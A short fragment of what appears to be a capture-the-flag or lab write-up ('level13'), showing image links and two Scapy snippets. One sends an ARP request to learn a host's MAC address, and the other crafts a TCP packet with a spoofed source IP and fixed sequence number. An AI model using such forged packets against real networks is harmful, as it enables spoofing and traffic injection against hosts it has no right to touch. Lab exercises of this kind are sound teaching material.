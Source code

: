 ![level13](image-2.png)
```
arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", hwsrc="e6:19:83:95:20:c7", psrc="10.0.0.3", pdst="10.0.0.2")
remote_mac = arp_response[0][1].hwsrc
```
![Alt text](image-3.png)
```
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.4", dst=local_ip) / TCP(sport=31338, dport=31337, flags="PA", seq=123456, ack=0)
```